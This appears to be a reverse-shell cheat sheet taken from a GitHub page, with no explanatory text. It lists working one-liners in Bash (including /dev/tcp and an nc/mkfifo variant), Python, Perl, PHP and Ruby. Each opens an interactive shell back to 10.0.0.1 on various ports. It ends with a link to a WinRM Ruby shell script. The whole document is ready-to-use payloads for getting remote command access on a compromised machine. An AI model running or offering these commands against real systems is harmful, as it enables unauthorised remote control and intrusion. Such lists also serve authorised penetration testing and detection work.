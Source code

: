 ### Bash

` bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 `
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1337 >/tmp/f`

### Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' `

### Perl

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};`

### PHP

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

### Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

### WinRM ruby shell

`https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb`
